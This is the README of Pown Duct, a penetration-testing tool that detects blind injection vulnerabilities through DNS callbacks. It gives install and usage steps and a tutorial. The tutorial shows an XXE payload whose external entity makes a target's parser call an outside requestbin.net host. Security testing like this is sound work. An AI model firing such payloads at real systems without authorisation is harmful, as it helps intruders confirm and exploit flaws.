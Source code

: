 [![Follow on Twitter](https://img.shields.io/twitter/follow/pownjs.svg?logo=twitter)](https://twitter.com/pownjs)
[![NPM](https://img.shields.io/npm/v/@pown/duct.svg)](https://www.npmjs.com/package/@pown/duct)
[![Fury](https://img.shields.io/badge/version-2x%20Fury-red.svg)](https://github.com/pownjs/lobby)

# Pown Duct

Essential tool for finding blind injection attacks.

## Credits

This tool is part of [secapps.com](https://secapps.com) open-source initiative.

```
  ___ ___ ___   _   ___ ___  ___
 / __| __/ __| /_\ | _ \ _ \/ __|
 \__ \ _| (__ / _ \|  _/  _/\__ \
 |___/___\___/_/ \_\_| |_|  |___/
  https://secapps.com
```

> **NB**: This tool is taking advantage of http://requestbin.net service. Future versions will use a dedicated, custom-built infrastructure.

## Quickstart

This tool is meant to be used as part of [Pown.js](https://github.com/pownjs/pown) but it can be invoked separately as an independent tool.

Install Pown first as usual:

```sh
$ npm install -g pown@latest
```

Invoke directly from Pown:

```sh
$ pown duct
```

Otherwise, install this module locally from the root of your project:

```sh
$ npm install @pown/duct --save
```

Once done, invoke pown cli:

```sh
$ ./node_modules/.bin/pown-cli duct
```

You can also use the global pown to invoke the tool locally:

```sh
$ POWN_ROOT=. pown duct
```

## Usage

```
pown duct <command>

Side-channel attack enabler

Commands:
  pown duct dns  DNS ducting

Options:
  --version  Show version number  [boolean]
  --help     Show help  [boolean]
```

### `pown duct dns`

```
pown duct dns

DNS ducting

Options:
  --version  Show version number  [boolean]
  --help     Show help  [boolean]
  --channel  Restore channel  [string]
  --output   Output format  [string] [choices: "string", "hexdump", "json"] [default: "string"]
```

## Tutorial

There are cases when we need to perform an attack such as sql injection, XSS, XXE or SSRF but the target application is not providing any indication that it is vulnerable. One way to be sure if a vulnerability is present is to try to inject a valid attack vector which forces a DNS resolver to ask for an attack controlled domain. If the resolution is successful, the attack will be considered successful.

> **NOTE**: You might be familiar with Burp Collaborator which provides a similar service for customers.

First, we need a disposable dns name to resolve:

```sh
$ pown duct dns
```

![screenshot](https://media.githubusercontent.com/media/pownjs/pown-duct/master/screenshots/01.png)

Using the provided DNS, compose your payload. For example, the following could trigger trigger a DNS resolution if a XXE vulnerability is present.

```xml
<!DOCTYPE foo [
<!ELEMENT foo ANY>
<!ENTITY bar SYSTEM "http://showmethemoney.bfa8b8d3c25f09d5429f.d.requestbin.net">
]>
<foo>
&bar;
</foo>
```

If the attack was successful, we will get a message in the terminal.

![screenshot](https://media.githubusercontent.com/media/pownjs/pown-duct/master/screenshots/02.png)
